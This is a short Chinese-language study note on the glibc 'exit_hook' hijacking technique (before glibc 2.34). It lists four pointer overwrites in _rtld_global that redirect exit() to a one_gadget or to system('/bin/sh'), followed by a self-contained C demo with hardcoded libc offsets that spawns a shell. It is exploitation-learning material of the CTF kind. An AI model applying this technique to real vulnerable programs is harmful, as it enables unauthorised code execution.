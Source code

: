 # exit_hook劫持

`glibc-2.34`之前

## 四种方式

修改`_rtld_global._dl_rtld_lock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_unlock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
修改`_rtld_global._dl_rtld_unlock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`

## 示例

```C
// 修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
#include <stdio.h>
#include <stdlib.h>

char *binsh = "/bin/sh";

int main(void)
{
    /* 寻找地址 */

    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x52290);

    // p/x (void*)&_rtld_global._dl_rtld_lock_recursive-$libc
    // p/x (void*)&_rtld_global._dl_rtld_unlock_recursive-$libc
    size_t *rtld_lock_default_lock_recursive = (size_t *)(libc_base + 0x228f68);

    // p (void*)&_rtld_global._dl_load_lock-$libc
    size_t *dl_load_lock = (size_t *)(libc_base + 0x228968);

    /* 修改地址 */
        
    // 设置 rtld_lock_default_lock_recursive 为 system
    *rtld_lock_default_lock_recursive = (size_t)&system;

    // 设置 _dl_load_lock 为 /bin/sh
    *dl_load_lock = *(size_t*)binsh;

    exit(1);
    return 0;
}
```
